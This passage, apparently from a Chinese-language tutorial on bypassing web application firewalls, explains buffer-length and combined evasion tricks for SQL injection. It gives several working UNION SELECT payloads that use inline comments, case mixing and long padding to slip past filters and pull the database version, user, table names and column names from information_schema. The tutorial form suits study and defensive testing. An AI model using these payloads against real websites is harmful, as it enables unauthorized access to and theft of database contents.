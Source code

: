 
  
以魔术字符%为例，Asp/Asp.net会受到影响
  
![waf3](../pictures/wafi3.png)
  

  

  
h) 缓冲区溢出(Advanced)
  
缓冲区溢出用于对付WAF在内的软件，本身有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过
  
举例
  
`?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26`
  

  
示例 0xA*1000 指0xA后面 'A' 重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，也许在有些情况下可能不需要这么长也能溢出
  

  
i) 整合绕过
  
整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说关系到总体与局部，
  
另一方面则是多种技术的使用创造了更多的可能性组合，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。
  
举例
  
``` 
  
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
  
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/
  
	+like+database()– -
  
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
	+TABLE_NAME=0x41646d696e--  
  
```
  
## 0x03 SQLi Filter的实现及Evasion
  
SQL Injection 时用得最多的一些关键字如下
  